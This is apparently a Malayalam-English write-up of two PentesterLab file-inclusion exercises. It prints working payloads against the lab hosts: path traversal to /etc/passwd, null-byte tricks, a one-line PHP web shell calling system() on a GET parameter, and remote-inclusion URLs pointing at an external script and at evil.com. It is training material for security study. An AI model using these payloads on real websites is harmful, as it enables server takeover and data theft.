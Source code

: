 # File Include 01
-->lab open chyuka apol ee url ula website load aakum 
->http://ptl-0412b8dc-2db7ea2a.libcurl.so/?page=intro.php
-->ini namuk intro.php il single qoute idam ie,=intro.php' .apol error varunu :
```
**Warning**: include(): Failed opening 'intro.php'' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in **/var/www/index.php** on line **13**
```
-->ivide namal page=intro.php  ennathil intro.php mati /../../../../../etc/passwd   enn kodukumbol namuk result kitunund
-->but namuk ivide traverse alla vendath file inclusion aan.so namal ee parameter il page=https://google.com  enn kodukumbol namuk ee site google.com load akunund
-->so namal control chyuna oru website il oru malicous php script undkuka enit aa path ithupole load chychal aa scriptil ullath ivide execute aakum means code execution nadakum ok
-->http://assets.pentesterlab.com/test_include_system.txt
-->ithan malicious script ulla namal control chyuna website.ithile code
```
<?php 
  system($_GET['c']);
?>
```
-->so ith ee correct path koduth load chyukuka ie,
->http://ptl-0412b8dc-2db7ea2a.libcurl.so/?page=http://assets.pentesterlab.com/test_include_system.txt
-->apol page load aakum but execution onum nadakila.karnam script nok.page load aakumbol c enna paramter GET chyanam enne ullu.so namal thane mannualy c enna paramter il code kodukanam.so 
->http://ptl-0412b8dc-2db7ea2a.libcurl.so/?page=http://assets.pentesterlab.com/test_include_system.txt&c=id 
-->ivide &c=id  ennkoodi koduth load chyikumbol code execute aakunund.so ingane namuk lab complete chyam

# File Include 02
-->ithum nerthe pole thane aadyam namuk single qoute itt nokam
->http://ptl-6c5d3f92-ba3f4c76.libcurl.so/?page=intro'
```
**Warning**: include(): Failed opening 'intro'.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in **/var/www/index.php** on line **17**  

The objective of this exercise is to find the File Include vulnerability in this page.
```
enn error kanikunu
-->ivide nokiyal kanam paramter il namal single qoute koduthapol result il single qoute kidakunath intro'.php ennan
-->athinartham .php enna extension browser automatic aayi add chyukayan chyunath.so naaml nerthe pole null byte use chyanam
-->ividem namal ?page=/../../../etc/passwd%00  enn kodukumbol traverse nadakunund
-->but namuk file inclusion aan vendath ok so ->http://ptl-6c5d3f92-ba3f4c76.libcurl.so/?page=http://evil.com%00
-->ingane kodukumbol evil.com load aakunund.so file inclusion chyam
-->http://ptl-6c5d3f92-ba3f4c76.libcurl.so/?page=http://assets.pentesterlab.com/test_include_system.txt%00&c=id
-->ivide nerthe pole namal chyunu.ivide sredhikuka.namal paranju null byte use chythale aaku.but ivide null byte idumbo c paramter in mumbayitan idendath ok
-->ini namuk lab complete chyam ok
